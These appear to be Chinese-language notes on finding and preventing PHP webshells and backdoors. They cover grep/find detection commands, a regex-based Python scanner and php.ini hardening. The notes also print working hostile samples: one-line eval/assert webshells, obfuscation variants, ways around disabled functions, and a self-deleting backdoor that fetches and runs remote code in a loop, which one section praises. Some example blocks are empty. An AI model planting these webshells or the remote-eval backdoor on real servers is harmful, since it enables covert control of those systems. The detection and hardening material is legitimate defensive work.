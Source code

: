 * 寻找 PHP（网站）挂马，后门
  
php 后门木马常用的函数大致上可分为四种类型：
1. 执行系统命令: system, passthru, shell_exec, exec, popen, proc_open
2. 代码执行与加密: eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13
3. 文件包含与生成: require, require_once, include, include_once, file_get_contents, file_put_contents, fputs, fwrite
4. .htaccess: SetHandler, auto_prepend_file, auto_append_file

二
想找一个 关键词是“hellow word” 在哪些文件中有，我们用 grep 命令
grep --color -i -r -n "hellow word"  /data/www/

假设最后更新是 10 天前我们可以查找 10 天内生成的可以 php 文件:

find /var/www/ -name “*.php” -mtime -10

也可以通过关键字的形式查找 常见的木马常用代码函数 eval,shell_exec,passthru,popen,system

find /var/www/ -name “*.php” |xargs grep “eval” |more
find /var/www/ -name “*.php” |xargs grep “shell_exec” |more
find /var/www/ -name “*.php” |xargs grep “passthru” |more

还有查看 access.log 当然前提是你网站的所有 php 文件不是很多的情况下

一句话查找 PHP 木马
# find ./ -name “*.php” |xargs egrep “phpspy|c99sh|milw0rm|eval(gunerpress|eval(base64_decode|spider_bc”> /tmp/php.txt
# grep -r –include=*.php ’[^a-z]eval($_POST’ . > /tmp/eval.txt
# grep -r –include=*.php ’file_put_contents(.*$_POST[.*]);’ . > /tmp/file_put_contents.txt
# find ./ -name “*.php” -type f -print0 | xargs -0 egrep “(phpspy|c99sh|milw0rm|eval(gzuncompress(base64_decode|eval(base64_decode|spider_bc|gzinflate)” | awk -F: ‘{print $1}’ | sort | uniq
查找最近一天被修改的 PHP 文件
# find -mtime -1 -type f -name *.php

grep ‘eval’ * -R 全盘搜索当前目录所有文件（包含子目录）中带有 eval 的文件，这条可以快速查找到被挂马的文件。

关于 eval，请自行 google 一句话 php 代码。

2，查看日志。

* 捡了一个非常淫荡的 PHP 后门，给跪了
  <?php

unlink($_SERVER['SCRIPT_FILENAME']);

ignore_user_abort(true);

set_time_limit(0);

$remote_file = 'http://xxx/xxx.txt';

while($code = file_get_contents($remote_file)){

@eval($code);

sleep(5);

};

?>

后门的代码第一行删除自身，然后驻留在后台内存里（关于 ignore_user_abort 函数，百度一下），等待外部链接

在 xxx.txt 中写入你的后门代码，访问后就会删除自己并循环执行 txt 的代码 


例如 txt 里面写了一句这样的代码 file_put_contents('./1.php',"<?php @eval($_POST[cmd])'"?>");


这样就会在目录下又生成一个木马


如果对方写了是执行命令 。。。

这段代码纯粹变成了一个等待命令的木马。。


而且管理员检查木马文件的时候  都找不到。。。


因为文件已经删除了



木马却注入在 php-fpm 内


sleep(5);  五秒就去远程读取一下指令。。。

........

打算将代码修改一下，加一些正则，去 163 某一篇新闻的评论里读取预先设定的恶意代码。。。hehe。。。


黑客连服务器都省了。。。



黑客只需要去网易新闻评论窗口内写入自己的代码就行


怕别人看懂？


直接加密


采用对称加密算法。。没有秘钥 谁也看不懂啥意思


秘钥在这段后门里面写着


所以非常安全



活生生就是一个远控木马啊！！

这么好的思路，给作者一个大赞

* 如何查找 php 木马后门高级篇

jusker (爱好后门后门分析) | 2014-05-17 11:54

<?php eval($_POST[xiao])?> # 在正常的编程中 eval 不常见，可通过字符串匹配查找 eval

常见的是变成

base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeGlhb10pPz4=) #同样匹配这个 base64_decode，找到文件之后查看文件内容

这种形式可以绕过，另外还有其他形式

<?php $_GET['eval']($_POST['xiao']);?>#同样这断你可以如果一个文件中出现 eval，或者文件中同时出现$_GET $_POST 则输出文

件位置

if(key($_GET)=='singyea')call_user_func($_GET['singyea'],$_POST['singyea'])；

<?php $_GET['a']($_POST['b']);?> #这几种就比较猥琐

test.php?a=assert

密码 b

<?php assert($_POST[s]);?>#直接匹配 assert

<?php $_POST['iso']($_POST['cmd']);?>#匹配文件中同时拥有两个 POST 的直接输出文件位置

密码 cmd 菜刀配置信息填:<O>iso=assert</O

preg_replace("/[pageerror]/e",$_POST['error'],"saft"); #这种就是同时一个文件里有 preg_replace 跟 POST 直接输出文件位置然后手工查找

@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null); 与上面一样的匹配方式

<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?

$s = create_function('', $_REQUEST['c']);

$s();

// s.php?c=eval%28$_REQUEST[cmd]%29;&cmd=echo%201;

?>

<?php file_put_contents(base64_decode(文件名), base64_decode(小马 base64));?>

对于 webshell 的一句话查杀只需要找到以上基本就可以解决

然后对于大马来说有 fread,fwrite,mkdir,system,eval，basename 一些函数，可查 php filesystem 函数，如果有这个函数匹配是否存可以代码

最后一个就是查找 fsocket 跟 socket 函数

这个是用来查打流量的函数 ddos 之类

* [[https://www.cnblogs.com/chenpingzhao/p/6562415.html][PHP安全之webshell和后门检测 - 踏雪无痕SS - 博客园]]                 :website:

** Article

基于 PHP 的应用面临着各种各样的攻击：

-  XSS：对 PHP 的 Web 应用而言，跨站脚本是一个易受攻击的点。攻击者可以利用它盗取用户信息。你可以配置 Apache，或是写更安全的 PHP 代码（验证所有用户输入）来防范 XSS 攻击

-  SQL 注入：这是 PHP 应用中，数据库层的易受攻击点。防范方式同上。常用的方法是，使用 mysql\_real\_escape\_string()对参数进行转义，而后进行 SQL 查询。

-   *文件上传*：它可以让访问者在服务器上放置（即上传）文件。这会造成例如，删除服务器文件、数据库，获取用户信息等一系列问题。你可以使用 PHP 来禁止文件上传，或编写更安全的代码（如检验用户输入，只允许上传 png、gif 这些图片格式）

-   *包含本地与远程文件*：攻击者可以使远程服务器打开文件，运行任何 PHP 代码，然后上传或删除文件，安装后门。可以通过取消远程文件执行的设置来防范

-   *eval/assert*：这个函数可以使一段字符串如同 PHP 代码一样执行。它通常被攻击者用于在服务器上隐藏代码和工具。通过配置 PHP，取消 eval 等函数调用来实现

-  Sea-surt Attack（Cross-site request forgery，CSRF。跨站请求伪造）：这种攻击会使终端用户在当前账号下执行非指定行为。这会危害终端用户的数据与操作安全。如果目标终端用户的账号用于管理员权限，整个 Web 应用都会收到威胁。

这里介绍上述加粗的几种攻击的方法

*** 一、各种 webshell


随着业务量的增大，越来越多的黑客来攻击扫描，网站安全性日益重要，一不留神就被黑客控制了服务器，最常见的方式就是通过 POST 请求来上传木马文件，从而达到可以执行任意命令，如果被控制就大事不妙了

所以还是要正视服务器的安全

最流行的一种后门叫做一句话木马，其形式如下所示：

#+BEGIN_EXAMPLE
#+END_EXAMPLE

这种容易被安全软件检测出来。为了增强隐蔽性，出现了各种一句话木马的变形，通过各种函数来伪装， *这里不得不吐槽 PHP 弱类型对于安全来说是致命的*

**** a、使用 str\_replace 函数


#+BEGIN_EXAMPLE

    //说明：请求参数  ?code=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
    最终执行命令")）?>
#+END_EXAMPLE

**** b、使用 str\_rot13 函数


#+BEGIN_EXAMPLE
    //说明：首先，将eval函数用str_rot13('riny')隐藏。然后，利用 e 修饰符，在preg_replace完成字符串替换后，使得引擎将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。
#+END_EXAMPLE

**** c、使用 include 函数


#+BEGIN_EXAMPLE

    //由于include方法可以直接编译任何格式的文件为php格式运行，因此可以上传一个txt格式的php文件，将真正的后门写在文本当中。
#+END_EXAMPLE

**** d、使用 pack 函数


#+BEGIN_EXAMPLE
#+END_EXAMPLE

*** e、使用 session


#+BEGIN_EXAMPLE

     f、隐藏在html页面
     
     

    404 Not Found

    Not Found
    The requested URL was not found on this server.

#+END_EXAMPLE

**** g、使用 assert 函数


#+BEGIN_EXAMPLE
#+END_EXAMPLE

**** 或者


#+BEGIN_EXAMPLE

     h、使用copy函数复制文件
     
     

     二、代码混淆
     
      
#+END_EXAMPLE

或者

#+BEGIN_EXAMPLE
#+END_EXAMPLE

可以使用 weevely 工具来生成，代码伪装避开各种主流的杀毒软件

#+BEGIN_QUOTE
  PHP 后门生成工具 weevely

  weevely 是一款针对 PHP 的 webshell 的自由软件，可用于模拟一个类似于 telnet 的连接 shell，weevely 通常用于 web 程序的漏洞利用，隐藏后门或者使用类似 telnet 的方式来代替 web 页面式的管理，weevely 生成的服务器端 php 代码是经过了 base64 编码的，所以可以骗过主流的杀毒软件和 IDS，上传服务器端代码后通常可以通过 weevely 直接运行。

  weevely 所生成的 PHP 后门所使用的方法是现在比较主流的 base64 加密结合字符串变形技术，后门中所使用的函数均是常用的字符串处理函数，被作为检查规则的 eval，system 等函数都不会直接出现在代码中，从而可以致使后门文件绕过后门查找工具的检查。使用暗组的 Web 后门查杀工具进行扫描，结果显示该文件无任何威胁。
#+END_QUOTE

更常用的混淆视听的方法:（这种是服务器层面的混淆）

-  修改文件时间

-  改名融入上传后所在文件夹，让人无法直观看出文件异常

-  文件大小的伪装处理(至少看起大小像个正常脚本)

-  选好藏身路径并尽量少的访问

-  畸形目录%20

*** 三、如果绕过配置文件


一般的服务器管理员会把 system、exec 等危险函数禁用的，那么如何绕过呢？

*** 1、使用反射


相关内容可参考： [[http://cn2.php.net/manual/en/reflectionfunction.invokeargs.php]]。

#+BEGIN_EXAMPLE
    invokeArgs(array("$_GET[c]"));
    ?>
#+END_EXAMPLE

**** 2、使用 callback


php 提供的另外一种可间接调用函数的方法是 callback. 这里使用了 ob\_start.具体说明可参考：http://www.php.net/manual/en/function.ob-start.php

#+BEGIN_EXAMPLE
#+END_EXAMPLE

php 中支持 callback 的函数还有很多，比如 array\_map,array\_filter, array\_reduce,usort(),uksort(),array\_walk() 等

*** 四、安全人员应该怎么做


*** 1、如何查找


直观寻找方式也有很多

-  通过文件名/修改时间/大小，文件备份比对发现异常（SVN/Git 对比，查看文件是否被修改）

-  通过 WEBSHELL 后门扫描脚本发现，如 Scanbackdoor.php/Pecker/shelldetect.php/（zhujiweishi ）

-  通过 access.log 访问日志分析

下面是 360 zhujiweishi ，在 linux 服务器上非常简单好用

[[https://images2015.cnblogs.com/blog/268981/201703/268981-20170317102649479-757410709.jpg]]

通过常见的关键词如（可以使用 find 和 grep 等命令结合起来搜索代码中是否包含以下文件）

-  系统命令执行: system, passthru, shell\_exec, exec, popen, proc\_open

-  代码执行: eval, assert, call\_user\_func,base64\_decode, gzinflate, gzuncompress, gzdecode, str\_rot13

-  文件包含: require, require\_once, include, include\_once, file\_get\_contents, file\_put\_contents, fputs, fwrite

通过简单的 python 脚本

#+BEGIN_EXAMPLE
    #!/usr/bin/env python
    # encoding: utf-8
     
    import os,sys
    import re
    import hashlib
    import time
     
    rulelist = [
        '(\$_(GET|POST|REQUEST)\[.{0,15}\]\s{0,10}\(\s{0,10}\$_(GET|POST|REQUEST)\[.{0,15}\]\))',
        '((eval|assert)(\s|\n)*\((\s|\n)*\$_(POST|GET|REQUEST)\[.{0,15}\]\))',
        '(eval(\s|\n)*\(base64_decode(\s|\n)*\((.|\n){1,200})',
        '(function\_exists\s*\(\s*[\'|\"](popen|exec|proc\_open|passthru)+[\'|\"]\s*\))',
        '((exec|shell\_exec|passthru)+\s*\(\s*\$\_(\w+)\[(.*)\]\s*\))',
        '(\$(\w+)\s*\(\s.chr\(\d+\)\))',
        '(\$(\w+)\s*\$\{(.*)\})',
        '(\$(\w+)\s*\(\s*\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\]\s*\))',
        '(\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\]\(\s*\$(.*)\))',
        '(\$\_\=(.*)\$\_)',
        '(\$(.*)\s*\((.*)\/e(.*)\,\s*\$\_(.*)\,(.*)\))',
        '(new com\s*\(\s*[\'|\"]shell(.*)[\'|\"]\s*\))',
        '(echo\s*curl\_exec\s*\(\s*\$(\w+)\s*\))',
        '((fopen|fwrite|fputs|file\_put\_contents)+\s*\((.*)\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\](.*)\))',
        '(\(\s*\$\_FILES\[(.*)\]\[(.*)\]\s*\,\s*\$\_(GET|POST|REQUEST|FILES)+\[(.*)\]\[(.*)\]\s*\))',
        '(\$\_(\w+)(.*)(eval|assert|include|require|include\_once|require\_once)+\s*\(\s*\$(\w+)\s*\))',
        '((include|require|include\_once|require\_once)+\s*\(\s*[\'|\"](\w+)\.(jpg|gif|ico|bmp|png|txt|zip|rar|htm|css|js)+[\'|\"]\s*\))',
        '(eval\s*\(\s*\(\s*\$\$(\w+))',
        '((eval|assert|include|require|include\_once|require\_once|array\_map|array\_walk)+\s*\(\s*\$\_(GET|POST|REQUEST|COOKIE|SERVER|SESSION)+\[(.*)\]\s*\))',
        '(preg\_replace\s*\((.*)\(base64\_decode\(\$)'
        ]
     
    def scan(path):
        print('           可疑文件         ')
        print('*'*30)
        for root,dirs,files in os.walk(path):
            for filespath in files:
                if os.path.getsize(os.path.join(root,filespath))<1024000:
                    file= open(os.path.join(root,filespath))
                    filestr = file.read()
                    file.close()
                    for rule in rulelist:
                        result = re.compile(rule).findall(filestr)
                        if result:
                            print '文件:'+os.path.join(root,filespath )
                            print '恶意代码:'+str(result[0][0:200])
                            print ('最后修改时间:'+time.strftime('%Y-%m-%d %H:%M:%S',time.localtime(os.path.getmtime(os.path.join(root,filespath)))))
                            print '\n\n'
                            break
    def md5sum(md5_file):
        m = hashlib.md5()
        fp = open(md5_file)
        m.update(fp.read())
        return m.hexdigest()
        fp.close()
     
    if md5sum('/etc/issue') == '3e3c7c4194b12af573ab11c16990c477':
        if md5sum('/usr/sbin/sshd') == 'abf7a90c36705ef679298a44af80b10b':
            pass
        else:
            print('*'*40)
            print "\033[31m sshd被修改，疑似留有后门\033[m"
            print('*'*40)
            time.sleep(5)
    if md5sum('/etc/issue') == '6c9222ee501323045d85545853ebea55':
        if md5sum('/usr/sbin/sshd') == '4bbf2b12d6b7f234fa01b23dc9822838':
            pass
        else:
            print('*'*40)
            print "\033[31m sshd被修改，疑似留有后门\033[m"
            print('*'*40)
            time.sleep(5)
    if __name__=='__main__':
     
        if len(sys.argv)!=2:
            print '参数错误'
            print "\t按恶意代码查找:"+sys.argv[0]+'目录名'
        if os.path.lexists(sys.argv[1]) == False:
            print "目录不存在"
            exit()
        print ('\n\n开始查找:'+sys.argv[1])
        if len(sys.argv) ==2:
            scan(sys.argv[1])
        else:
            exit()
#+END_EXAMPLE

**** 2、如何防范


**** php.ini 设置


-  disable\_functions =phpinfo,passthru,exec,system,chroot,scandir,chgrp,chown,shell\_exec,proc\_open,proc\_get\_status,ini\_alter,ini\_alter,ini\_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream\_socket\_server,get\_current\_user,leak,putenv,popen,opendir

-  设置“safe\_mode”为“on”

-  禁止“open\_basedir” 可以禁止指定目录之外的文件操作

-  expose\_php 设为 off 这样 php 不会在 http 文件头中泄露信息

-  设置“allow\_url\_fopen”为“off” 可禁止远程文件功能

-  log\_errors”设为“on” 错误日志开启

**** php 编码方面


-  所有用户提交的信息 post get 或是其他形式提交的数据 都要单独写个过滤函数处理一遍，养成习惯(intval，strip\_tags，mysql\_real\_escape\_string)

-  经常检查有没有一句话木马 eval($\_POST[ 全站搜索 php 代码有没有这样的源代码

-  文件要命名规范 至少让自己可以一目了然，哪些 php 文件名字有问题

-  如用开源代码，有补丁出来的话，尽快打上补丁

-  如果攻击者拿到了服务器的最高权限，有可能通过修改服务器的配置文件 php.ini 来达到他们隐藏后门的目的，前几年比较流行。原理如下：php.ini 里面的这两个配置项：auto\_prepend\_file ，auto\_append\_file 可以让 php 解析前，自己加点东西进去 Automatically add files before or after any PHP document,如果被配置了 eval()函数的后门 那就很阴险了，php 文件代码里面查不出，只会在 php 解析前包含 eval()函数进来 并且因为是全局的 所以所有 php 页面都是后门！所以要先确认 auto\_prepend\_file ，auto\_append\_file 没被配置成其他东西，才进行第 3 点的源代码检查。

**** 服务器配置


配置的时候尽量使用最小权限，不要写入或者执行的目录不能给相应的权限

nginx 或者 apache 配置的时候，不能访问的目录一定要配置为 deny

待续。。。

参考文章

https://github.com/chenpingzhao/php-webshells

http://blog.csdn.net/miltonzhong/article/details/9714367

http://blog.jobbole.com/53821/
